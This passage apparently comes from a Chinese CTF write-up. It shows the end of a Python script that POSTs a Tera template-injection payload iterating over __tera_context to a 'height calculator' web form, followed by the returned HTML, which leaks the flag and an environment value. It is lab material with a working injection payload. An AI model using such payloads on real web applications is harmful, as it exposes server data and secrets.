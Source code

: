 ```python
{%- for char in __tera_context -%}
    {%- if char == 'a' -%}
    a""" + "\n".join(branches) + """
    {%- else -%}
    <NOCHAR>
    {%- endif -%}
{% endfor %}
"""

print(data)

body = "content=" + data
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = requests.post(url, data=body, headers=headers)

print(r.text.replace("\\n", "\n").replace("\\", ''))
```

结果：

```html
    <!doctype html>
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://cdn.bootcdn.net/ajax/libs/twitter-bootstrap/4.6.0/css/bootstrap.min.css">
        <link rel="stylesheet" href="/static/style.css">
        <title>身高计算器</title>
    </head>
    <body>
        <h1>身高计算器</h1>
        <h2>请输入你的身高</h2>
        <form action="/" method="post">
            <p><input type="text" name="content" placeholder="cm"></p>
            <p><input type="submit" value="提交"></p>
        </form>
        <div class="result">您的身高为

{"arr":["{
"name":"admin",
"work_dir":"/usr/admin/"
}
}"],"flag":"flag{RUSt_1S_S0_1NTere4T1NG}","worker":{"env_var":"se3ret","id":20379999,"name":"admin","work_dir":"/usr/admin/"}}
 cm</div>
    </body>
    </html>
```

### 截图
